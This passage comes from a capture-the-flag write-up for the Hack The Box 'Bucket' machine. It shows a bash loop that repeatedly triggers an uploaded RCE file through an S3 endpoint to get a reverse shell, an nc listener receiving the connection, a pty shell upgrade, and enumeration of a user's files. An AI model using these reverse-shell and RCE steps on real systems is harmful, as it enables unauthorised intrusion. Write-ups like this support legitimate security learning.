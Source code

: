 ```bash
echo
echo "File uploaded."
echo "Executing reverse shell...  Ensure a netcap listener is running"
echo "Kill this script with Ctrl+C upon a successful connection"

while [ true ]
do
	if [[ ! -z "$(aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/ | grep "$RCE_FILE_NAME")" ]]
	then
		curl http://bucket.htb/"$RCE_FILE_NAME" &> /dev/null
	else
		echo "RCE file has been cleaned from the bucket.  Stopping..."
	fi
done
```

We will need to run `nc` to listen for access while running this script (see our Passage writeup) and quit this script when we have a foothold.

Now we have a foothold, and we run the same python script we did last time to get a better shell:
```
$ nc -nlvp 1234                                                                                            1 ⨯
listening on [any] 1234 ...
connect to [10.10.14.239] from (UNKNOWN) [10.10.10.212] 44336
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'           
www-data@bucket:/var/www/html$ 
```

Now we just play around, trying to find anything.  In Passage, they had user data, but we already have that!  So we just have a look at what we can find.

We find in the `/home` directory a user called `roy`.  They have a `user.txt` file: that looks like a user flag!  So we know our goal at this minute is to get access to Roy's account, as the `user.txt` file currently isn't accessible with our present permissions.

We also see in Roy's home directory, a `project` folder.  In this folder is the following:
```
www-data@bucket:/var/www/html$ ls /home/roy/project
ls /home/roy/project
composer.json  composer.lock  db.php  vendor
www-data@bucket:/var/www/html$ ls /home/roy/project/db.php
ls /home/roy/project/db.php
/home/roy/project/db.php
www-data@bucket:/var/www/html$ cat /home/roy/project/db.php
cat /home/roy/project/db.php
<?php
require 'vendor/autoload.php';
date_default_timezone_set('America/New_York');
use Aws\DynamoDb\DynamoDbClient;
use Aws\DynamoDb\Exception\DynamoDbException;

$client = new Aws\Sdk([
    'profile' => 'default',
    'region'  => 'us-east-1',
    'version' => 'latest',
    'endpoint' => 'http://localhost:4566'
]);

$dynamodb = $client->createDynamoDb();

//todo
```
